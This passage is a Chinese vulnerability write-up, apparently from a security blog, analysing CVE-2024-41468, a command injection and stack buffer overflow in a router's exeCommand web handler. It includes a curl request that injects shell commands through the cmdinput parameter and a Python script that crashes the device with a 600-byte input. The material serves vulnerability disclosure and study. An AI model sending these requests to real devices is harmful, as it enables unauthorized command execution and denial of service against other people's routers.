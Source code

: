 图7 漏洞复现  
### 3.2 CVE-2024-41468  
  
漏洞位于 exeCommand  
 函数中：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT0aiarbc9dIrcb3AM5BVicDCDCCU4nlBcQMwFpAjTtibdibS7yesFgJUa43r2iaW2h6iahFcjvNbXGPAMUw/640?wx_fmt=png&from=appmsg "")  
  
图8 exeCommand源码  
  
src = (char *)websGetVar(a1, "cmdinput", &unk_4AFDC0)  
代码从HTTP请求中获取名为 cmdinput  
 的参数，存储在 src  
 中。如果参数不存在，使用  
默认值 &unk_4AFDC0  
。  
  
strcpy(v7, src)  
代码将获取到的 cmdinput  
 参数值复制到缓冲区 v7  
 中。没有对输入进行验证或清理。  
  
由于 doSystemCmd  
 函数直接使用 v7  
 中的值作为命令执行，且 v7  
 是从用户输入中获取的，这会导致命令注入漏洞。例如，用户可以通过以下方式提交恶意 cmdinput  
 参数：  
```
cmdinput=ls; ifconfig /
```  
  
这种情况下生成的命令将会导致命令执行：  
```
ls; ifconfig /
```  
  
漏洞复现  
```
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "cmdinput=ifconfig%3B" "http://192.168.100.2/goform/exeCommand"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT0aiarbc9dIrcb3AM5BVicDCDFAOocwDszmMaia7GjLZlTaAsV7vrGEQoFqjzfz11rVVicCzc1Hf3QwJw/640?wx_fmt=png&from=appmsg "")  
  
图9 漏洞复现  
  
此外，大家注意看图8中黑线标出部分，char v7[512];  
 char v8[256];  
 char v9[4096];  
 char v10[4096];  
 声明了一些固定大小的缓冲区。  
  
strcpy(v7, src);  
 使用 strcpy  
 将用户输入复制到 v7  
，但 strcpy  
 不会检查目标缓冲区的大小。如果 src  
 超过 512 字节，导致导致缓冲区溢出，程序崩溃。  
```
import requestsip = '192.168.100.2'url = f"http://{ip}/goform/exeCommand"long_input = 'A' * 600  # 600 字节的字符串，会溢出 512 字节的缓冲区data = {    "cmdinput": long_input}ret = requests.post(url=url, data=data)print(ret.text)
```  
  